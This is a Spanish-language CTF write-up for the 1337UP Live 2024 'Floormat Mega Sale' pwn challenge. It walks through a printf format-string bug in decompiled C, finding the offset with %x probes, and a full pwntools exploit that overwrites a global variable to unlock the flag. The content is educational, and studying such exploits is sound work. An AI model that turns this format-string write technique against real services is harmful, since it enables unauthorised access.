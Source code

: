 ```yaml
---
layout: post
title: Floormat Mega Sale 1337UP Live
comments: true
categories: [Pwn, Writeups, 1337UP]
---
```


Este es el otro reto que resolví de la 1337UP Live de 2024. Creo que es primer *Format String* que traigo al blog, espero que os guste y os sirva para aprender.

![Image]({{ site.baseurl }}/images/posts/1337UP-logo.png)

# Overview

El enunciado dice lo siguiente:

```
The Floor Mat Store is running a mega sale, check it out!
```

# Reconocimiento

Como en el resto de desafíos, se nos da un binario. Analizando con *checksec*, podemos pensar que puede trarse de un *Buffer Overflow*:

```
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Si echamos un vistazo al código (descompilando con *ghidra*), vemos el *FS*:

```c
int main(void)
{
  int iVar1;
  int input;
  char address_input [256];
  char *options [4];
  char *option5;
  char *option6;
  __gid_t user_gid;
  int i;
  
  setvbuf(stdout,(char *)0x0,2,0);
  options[0] = "1. Cozy Carpet Mat - $10";
  options[1] = "2. Wooden Plank Mat - $15";
  options[2] = "3. Fuzzy Shag Mat - $20";
  options[3] = "4. Rubberized Mat - $12";
  option5 = "5. Luxury Velvet Mat - $25";
  option6 = "6. Exclusive Employee-only Mat - $9999";
  user_gid = getegid();
  setresgid(user_gid,user_gid,user_gid);
  puts(
      "Welcome to the Floor Mat Mega Sale!\n\nPlease choose from our currently available floor mats: \n"
      );
  puts("Please select a floor mat:\n");
  for (i = 0; i < 6; i = i + 1) {
    puts(options[i]);
  }
  puts("\nEnter your choice:");
  __isoc99_scanf(&DAT_00402225,&input);
  if ((0 < input) && (input < 7)) {
    do {
      iVar1 = getchar();
    } while (iVar1 != 10);
    puts("\nPlease enter your shipping address:");
    fgets(address_input,256,stdin);
    puts("\nYour floor mat will be shipped to:\n");
    printf(address_input); /* FORMAT STRING VULN */
    if (input == 6) {
      employee_access();
    }
    return 0;
  }
  puts("Invalid choice!\n");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

Además, vemos que en caso de introducir la opción 6, entraremos en una función y si `employee` es distinto de 0, obtendremos la flag:

```c
void employee_access(void)

{
  char local_58 [72];
  FILE *local_10;
  
  if (employee == 0) {
    puts("\nAccess Denied: You are not an employee!");
  }
  else {
    local_10 = fopen("flag.txt","r");
    if (local_10 == (FILE *)0x0) {
      puts(
          "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are runnin g this on the shell server."
          );
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    fgets(local_58,0x40,local_10);
    printf("Exclusive Employee-only Mat will be delivered to: %s\n",local_58);
    fclose(local_10);
  }
  return;
}
```

Parece que en el código no existe forma de cambiar el valor de dicha variable, por suerte disponemos del *FS*.

# Explotación

Con esto en mente, ya sólo necesitamos la dirección de `employee`:

```
readelf -s floormat_sale | grep employee
    18: 00000000004011c6   159 FUNC    GLOBAL DEFAULT   14 employee_access
    30: 000000000040408c     4 OBJECT  GLOBAL DEFAULT   25 employee
```

Y también necesitamos el *offset* hasta el *FS*, cosa que podemos calcular manualmente, viendo en que posición(es) caen las A's (posición 10):

```
Please enter your shipping address:
AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x 

Your floor mat will be shipped to:

AAAA 883aa643 0 882d24e0 1166324 0 b35be828 4010e0 0 3e8 41414141 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 a207825 1800000 8 40 80000 8 10 40 19 0 0 0 0 b35bff7b 883faa97 0 4020f1 
```

Finalmente, podemos utilizar la función `fmtstr_payload` de *pwntools* para facilitarnos la creación del script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

exe = context.binary = ELF(args.EXE or 'floormat_sale')

def start():

    if args.REMOTE:
        return remote("floormatsale.ctf.intigriti.io", 1339)
    else:
        return process('./floormat_sale')

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

# Dirección de employee
employee = 0x40408c
offset=10

io = start()

io.recvuntil("choice:")
io.sendline("6")
io.recvuntil("address:")

payload = fmtstr_payload(offset, {employee:  0x1})

io.sendline(payload)

io.interactive()
```

Y voilá! Obtenemos nuestra flag!

```
Your floor mat will be shipped to:

Exclusive Employee-only Mat will be delivered to: INTIGRITI{3v3ry_fl00rm47_mu57_60!!}
```

Si te ha gustado este post o tienes alguna duda, puedes dejarme un comentario. Y no dudes en leer el resto de writeups de la competición.